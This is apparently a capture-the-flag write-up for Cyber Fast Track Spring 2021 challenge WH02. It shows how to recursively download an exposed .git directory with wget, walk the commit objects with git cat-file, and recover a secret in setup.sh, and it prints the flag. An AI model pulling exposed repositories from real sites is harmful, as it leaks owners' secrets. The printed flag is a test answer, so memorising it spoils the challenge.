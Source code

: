 `wget -r https://cfta-wh02.allyourbases.co/.git/`

Now that we have the `.git` directory, we can open it up in a Git client such as Github Desktop and look at the commit history. Doing so, we find the file `setup.sh` that was committed on Mar 7, 2021, which contains the flag:

![](/assets/img/writeups/CyberFastTrackSpring2021/WH02%20Writeup.003.png)

As a side note, you could also find the flag by using the following syntax `git cat-file -p [object]`. So, you could print the master object found in `.git/refs/heads/master`, then the parent object, then the tree, and finally the `setup.sh` object:

```bash
.../.git/refs/heads$ git cat-file -p master

tree 7b45022b9625c4ff304c7889aa347c14a783d526
parent 80e789704ddca67d772dbc34de1088e8c1917e9d
author Joe Bloggs <j.bloggs@allyourbases.io> 1615149654 -0800
committer Joe Bloggs <j.bloggs@allyourbases.io> 1615149654 -0800

Production version.

.../.git/refs/heads$ git cat-file -p 80e789704ddca67d772dbc34de1088e8c1917e9d

tree 41d13ed4347b3165f04206816551c2db2e85362f
author Joe Bloggs <j.bloggs@allyourbases.io> 1615149294 -0800
committer Joe Bloggs <j.bloggs@allyourbases.io> 1615149294 -0800

Testing a few things.

.../.git/refs/heads$ git cat-file -p 41d13ed4347b3165f04206816551c2db2e85362f
100644 blob 29a14289852c096391cf9d2cd3de8907056b35f3    index.html
100644 blob dc5e9b1b5e6133b2c1d537010f9ea24285dbd961    setup.sh

.../.git/refs/heads$ git cat-file -p dc5e9b1b5e6133b2c1d537010f9ea24285dbd961
#!/bin/bash

FLAG="giTisAGreat_ResoURCe8337"

cd build
cp ../sitedata.zip sitedata.zip
unzip sitedata.zip
```

### Flag: giTisAGreat_ResoURCe8337